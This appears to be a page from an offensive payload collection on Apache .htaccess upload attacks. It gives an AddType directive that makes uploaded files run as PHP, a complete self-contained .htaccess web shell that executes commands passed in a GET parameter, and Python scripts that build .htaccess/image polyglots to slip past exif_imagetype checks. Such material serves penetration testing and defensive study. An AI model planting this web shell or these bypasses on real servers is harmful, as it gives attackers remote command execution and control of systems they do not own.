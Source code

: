 # .htaccess

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

## Summary

* [AddType Directive](#addtype-directive)
* [Self Contained .htaccess](#self-contained-htaccess)
* [Polyglot .htaccess](#polyglot-htaccess)
* [References](#references)


## AddType Directive

Upload an .htaccess with : `AddType application/x-httpd-php .rce`   
Then upload any file with `.rce` extension.


## Self Contained .htaccess

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directives from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```


## Polyglot .htaccess

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot. 

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.


* Create valid `.htaccess/xbm` image
    ```python
    width = 50
    height = 50
    payload = '# .htaccess file'

    with open('.htaccess', 'w') as htaccess:
        htaccess.write('#define test_width %d\n' % (width, ))
        htaccess.write('#define test_height %d\n' % (height, ))
        htaccess.write(payload)
    ```

* Create valid `.htaccess/wbmp` image
    ```python
    type_header = b'\x00'
    fixed_header = b'\x00'
    width = b'50'
    height = b'50'
    payload = b'# .htaccess file'

    with open('.htaccess', 'wb') as htaccess:
        htaccess.write(type_header + fixed_header + width + height)
        htaccess.write(b'\n')
        htaccess.write(payload)
    ```


## References

* [Attacking Webservers Via .htaccess - Eldar Marcussen - May 17, 2011](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability - Narendra Shinde - October 22, 2015 ](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Insomnihack Teaser 2019 / l33t-hoster - Ian Bouchard (@Corb3nik) - January 20, 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
